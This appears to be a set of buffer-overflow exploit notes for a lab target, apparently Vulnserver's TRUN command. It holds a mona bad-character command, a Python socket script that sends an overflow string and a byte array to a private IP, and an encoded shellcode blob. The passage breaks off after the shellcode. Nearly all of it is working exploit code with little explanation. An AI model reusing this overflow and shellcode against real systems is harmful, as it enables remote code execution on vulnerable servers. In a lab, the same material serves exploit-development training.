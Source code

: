 ### Finding bad chars
!mona bytearray -cpb "\x00"
```python
#!/usr/bin/python3

import sys, socket
from time import sleep

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13"
"\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39"
"\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c"
"\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72"
"\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85"
"\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98"
"\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab"
"\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe"
"\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1"
"\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4"
"\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7"
"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

shellcode = "A" * 2003 + "B" * 4 + badchars

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = "TRUN /.:/" + shellcode

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
### Paylod
```python
#!/usr/bin/python3

import sys, socket
from time import sleep

overflow = (b"\xb8\x5c\x1e\x35\x96\xd9\xc6\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
b"\x52\x31\x43\x12\x03\x43\x12\x83\x9f\x1a\xd7\x63\xe3\xcb\x95"
b"\x8c\x1b\x0c\xfa\x05\xfe\x3d\x3a\x71\x8b\x6e\x8a\xf1\xd9\x82"
b"\x61\x57\xc9\x11\x07\x70\xfe\x92\xa2\xa6\x31\x22\x9e\x9b\x50"
b"\xa0\xdd\xcf\xb2\x99\x2d\x02\xb3\xde\x50\xef\xe1\xb7\x1f\x42"
b"\x15\xb3\x6a\x5f\x9e\x8f\x7b\xe7\x43\x47\x7d\xc6\xd2\xd3\x24"
b"\xc8\xd5\x30\x5d\x41\xcd\x55\x58\x1b\x66\xad\x16\x9a\xae\xff"
b"\xd7\x31\x8f\xcf\x25\x4b\xc8\xe8\xd5\x3e\x20\x0b\x6b\x39\xf7"
b"\x71\xb7\xcc\xe3\xd2\x3c\x76\xcf\xe3\x91\xe1\x84\xe8\x5e\x65"
b"\xc2\xec\x61\xaa\x79\x08\xe9\x4d\xad\x98\xa9\x69\x69\xc0\x6a"
b"\x13\x28\xac\xdd\x2c\x2a\x0f\x81\x88\x21\xa2\xd6\xa0\x68\xab"
b"\x1b\x89\x92\x2b\x34\x9a\xe1\x19\x9b\x30\x6d\x12\x54\x9f\x6a"
b"\x55\x4f\x67\xe4\xa8\x70\x98\x2d\x6f\x24\xc8\x45\x46\x45\x83"
b"\x95\x67\x90\x04\xc5\xc7\x4b\xe5\xb5\xa7\x3b\x8d\xdf\x27\x63"
b"\xad\xe0\xed\x0c\x44\x1b\x66\xf3\x31\x27\x31\x9b\x43\x27\xac"
b"\x07\xcd\xc1\xa4\xa7\x9b\x5a\x51\x51\x86\x10\xc0\x9e\x1c\x5d"
b"\xc2\x15\x93\xa2\x8d\xdd\xde\xb0\x7a\x2e\x95\xea\x2d\x31\x03"
b"\x82\xb2\xa0\xc8\x52\xbc\xd8\x46\x05\xe9\x2f\x9f\xc3\x07\x09"
b"\x09\xf1\xd5\xcf\x72\xb1\x01\x2c\x7c\x38\xc7\x08\x5a\x2a\x11"
```